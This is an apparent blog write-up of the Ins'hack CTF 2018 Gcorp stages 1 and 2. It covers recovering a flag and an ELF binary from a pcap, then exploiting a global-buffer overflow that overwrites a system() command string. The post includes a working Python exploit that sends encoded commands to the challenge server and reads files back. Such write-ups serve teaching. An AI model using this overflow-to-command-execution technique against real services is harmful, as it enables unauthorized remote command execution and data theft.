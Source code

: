 ```yaml
---
layout: post
title:  "[Ins'hack CTF 2018] Gcorp stage 1 & 2"
date:   2018-04-08 17:00:00 +0000
categories: "CTF"
comments: true
---
```


The second pwn challenge was Gcorp Stage 2, but it required to complete the first stage. This series of challenges was very complete as it had a "background" in such a way that the real fun was to progress in the stages.

Stage 1
---------------------
>While loosing some time on the Internet you fell on a old blog-post about conspiracy theories...
>
>A self proclaimed hacker attached a network capture in a comment of this post telling that he will be `0xdeadbeef` before finishing the work.
>
>Even if the job seems risky you can't help it, you wanna look at it...
>the adventure begins...

The first stage is the only challenge of the networking category. It starts with a pcap file, which obviously I opened with Wireshark. Nothing really interesting in terms of packets or streams, just some ARP and a long TCP stream which we can follow. At first sight, it seemed like junk data and I rapidly went through the entire stream to land on what appears to be a base64 string:

![base64 string]({{ "/assets/inshackTcpStream.png" | absolute_url }})
And decoded, it gaves us the flag for the first stage:
```shell
└───▶ echo "SU5TQXtjMTgwN2EwYjZkNzcxMzI3NGQ3YmYzYzY0Nzc1NjJhYzQ3NTcwZTQ1MmY3N2I3ZDIwMmI4MWUxNDkxNzJkNmE3fQ==" | base64 -d
INSA{c1807a0b6d7713274d7bf3c6477562ac47570e452f77b7d202b81e149172d6a7}
```
Nothing tough but the funnier part is following.

Stage 2
---------------------
>All you need to do is to pwn using some DNA samples...
>
>Once you gathered enough information, go checkout this (url)
>
>Note: you should validate stage 1 to have more information on stage 2.

In this part, there was just a URL given that said:
>... POST valid DNA data (input limited to 1024 bytes)

After trying some post request, I had errors but nothing much to drive me on the correct path. As mentioned in the description, I decided to give a closer look at the first stage and the TCP stream. And yes, there was more information in it:

![random test]({{ "/assets/inshackRandomText.png" | absolute_url }})
Some text, but I did try to find a 12142 port open on multiple URL (gcorp-stage-2.ctf.insecurity-insa.fr...) but nop, wasn't this.

![ELF start]({{ "/assets/inshackELFStart.png" | absolute_url }})
Here we got the beginning of an ELF binary. This is more promising. The next step was to extract this binary from the pcap file. After saving the stream with Wireshark, I used the hexadecimal editor Bless to cut the uneeded part. As a result, we had a perfect binary:
```shell
└───▶ file test
test: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=03596ed5f316c5308ca05926c90ceaa01596c356, not stripped
```
When launched, it waits for input and I rapidly recognized the same errors I had with the POST requests. Surely this was the program handling the POST requests. The next step was to disassemble it to see what kind of data it waits for. The **main** function had a call to a **dna_to_bin** that also had a call to **d2b**.
>**main** -> **dna_to_bin** -> **d2b**

+ **dna_to_bin**: check if the input data is a multiple of 4. If so; iterate through the data 4 by 4 bytes and call **d2b** each time with these 4 bytes.
+ **d2b**: iterates through the 4 bytes and check if these bytes are equal to A, C, G or T (I know this group of letters was related to DNA because of the movie Gattaca). If not, it gaves us the other error we found with the POST requests: "DNA data contains a unknown character!". Otherwise it calculates a byte based on the 4 bytes sequences, and stores it into a global variable *godat*.

At this point I knew what was the program waiting for. For the same 4 bytes sequence it resulted in the same output. For example "CCCC" was "U", "CCCA" was "T"... Thus it was possible to generate any byte.

There also was an interesting call to **system** at the end of **main**. By setting a breakpoint on it I was able to see what argument the function took:
```nasm
[-------------------------------------code-------------------------------------]
   0x555555554a76 <main+216>:	mov    edi,0x1
   0x555555554a7b <main+221>:	call   0x5555555546d0 <exit@plt>
   0x555555554a80 <main+226>:	lea    rdi,[rip+0x200639]        # 0x5555557550c0 <gcmd>
=> 0x555555554a87 <main+233>:	call   0x555555554690 <system@plt>
   0x555555554a8c <main+238>:	mov    eax,DWORD PTR [rbp-0x4]
   0x555555554a8f <main+241>:	cdqe   
   0x555555554a91 <main+243>:	mov    rdx,rax
   0x555555554a94 <main+246>:	lea    rsi,[rip+0x2005a5]        # 0x555555755040 <godat>
Guessed arguments:
arg[0]: 0x5555557550c0 ("echo $(date) > /tmp/dna.log")
```
Hmm, "echo $(date) > /tmp/dna.log" which is stored in the global variable *gcmd*. This variable was stored between two other global variables: *gidat* and *godat*.
```nasm
gdb-peda$ x/30dx 0x5555557550c0 - 0x40
0x555555755080 <godat+64>:	0x0000000000000000	0x0000000000000000
0x555555755090 <godat+80>:	0x0000000000000000	0x0000000000000000
0x5555557550a0 <godat+96>:	0x0000000000000000	0x0000000000000000
0x5555557550b0 <godat+112>:	0x0000000000000000	0x0000000000000000
0x5555557550c0 <gcmd>:	    0x642824206f686365	0x2f203e2029657461
0x5555557550d0 <gcmd+16>:	  0x2e616e642f706d74	0x0000000000676f6c
0x5555557550e0 <gcmd+32>:	  0x0000000000000000	0x0000000000000000
0x5555557550f0 <gcmd+48>: 	0x0000000000000000	0x0000000000000000
0x555555755100 <gidat>:	    0x4343434341414141	0x000000000000000a
0x555555755110 <gidat+16>:	0x0000000000000000	0x0000000000000000
0x555555755120 <gidat+32>:	0x0000000000000000	0x0000000000000000
0x555555755130 <gidat+48>:	0x0000000000000000	0x0000000000000000
0x555555755140 <gidat+64>:	0x0000000000000000	0x0000000000000000
0x555555755150 <gidat+80>:	0x0000000000000000	0x0000000000000000
0x555555755160 <gidat+96>:	0x0000000000000000	0x0000000000000000
```
*gidat* is apparently storing our input (it had a size of 1024 bytes). With *godat* just above *gcmd*, the question was: are we able to overwrite *gcmd* with *godat* ? The maximum input size is 1024 bytes, so 1024/4=256. However, *godat* is 128 bytes long. A quick test resulted in:
```shell
└───▶ python -c "print('CCCC'*128 + 'CCCC', end='')" | ./test
sh: Ucho : commande introuvable
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```
Yep, the command had effectivly been overwritten.

Therefore, the plan was to write a script that:
+ Take a command in argument.
+ For each byte in this command, find the right combination with the program.
+ Send 4*128=512 bytes to go through *godat* and 512 other bytes that start with the combination for the command.

There it is:
{% highlight python linenos %}
#!/usr/bin/python2

from pwn import *
import random, json, os, requests

context.log_level = 'error'

# ";" is added at the end of the command so what's after doesn't count
cmd = sys.argv[1] + " ;"
payload = ""
tab={}

# Because it takes a bit of time to find a combination, the combinations' dic
# is saved into a json file each time the script terminates and loaded again
# when the script starts
if (os.path.getsize('tab.json') > 0):
    with open('tab.json', 'rw') as fp:
        tab = json.load(fp)

for e in cmd:

    # If we already have the combination, it
    # is added to our payload
    if e in tab.keys():
        payload += tab[e]

    # If we don't have the combination:
    # The while True could be better, same
    # for the random.choice('GATC'), an iteration
    # through AAAA, then AAAC... would be more effective
    else:
        while True:
            # We start the process each time and do not
            # forget to close it
            c = process("./test")
            junk = ''.join([random.choice('GATC') for n in xrange(4)])
            c.sendline(junk)
            r = c.recv(1)
            # Combination is found, add it to the dictionnary
            # and our payload
            if r == e:
                payload += junk
                tab[e]=junk
                break
            c.close()

with open('tab.json', 'w') as fp:
    json.dump(tab, fp)

c = requests.post("https://gcorp-stage-2.ctf.insecurity-insa.fr/", data='C'*512+payload+512*tab[' '])
print(c.text.split('UUUUUU')[0])
{% endhighlight %}

We can now easily type our commands:
```shell
./xploit.py "ls -lah; cat .flag.txt"
total 916
drwxr-xr-x    1 gcorp    root        4.0K Apr  7 10:07 .
drwxr-xr-x    1 root     root        4.0K Apr  7 10:07 ..
-rw-rw-r--    1 gcorp    root          70 Apr  7 10:07 .flag.txt
-rwxrwxr-x    1 gcorp    root      891.9K Apr  7 10:07 dna_decoder
-rw-rw-r--    1 gcorp    root       10.0K Apr  7 10:05 stage_3_storage.zip
INSA{1fb977db25976d7e1a0fb713383de1cea90b2d15b4173708d867be3793571ed9}
```

Bonus
---------------------
Recover the stage_3_storage.zip
```shell
./xploit.py "cat stage_3_storage.zip | base64" | base64 -d > stage_3_storage.zip
```

